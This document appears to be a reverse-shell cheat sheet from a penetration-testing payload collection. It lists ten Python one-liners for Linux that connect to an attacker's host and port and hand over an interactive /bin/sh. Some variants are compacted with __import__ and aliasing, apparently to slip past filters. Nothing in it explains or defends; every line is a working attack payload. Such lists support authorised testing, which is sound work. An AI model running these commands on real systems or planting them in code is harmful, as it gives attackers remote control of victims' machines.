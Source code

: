 #### Python

> Linux only

IPv4
```python
export RHOST="$ATTACKER_IP";export RPORT=$ATTACKER_PORT;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",$ATTACKER_PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",$ATTACKER_PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
```python
python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",$ATTACKER_PORT));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

IPv4 (No Spaces)
```python
python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",$ATTACKER_PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
```python
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");os=__import__("os");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",$ATTACKER_PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
```python
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",$ATTACKER_PORT));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

IPv4 (No Spaces, Shortened)
```python
python -c 'a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("$ATTACKER_IP",$ATTACKER_PORT));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```
```python
python -c 'a=__import__;b=a("socket");p=a("subprocess").call;o=a("os").dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("$ATTACKER_IP",$ATTACKER_PORT));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```
```python
python -c 'a=__import__;b=a("socket");c=a("subprocess").call;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("$ATTACKER_IP",$ATTACKER_PORT));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'
```
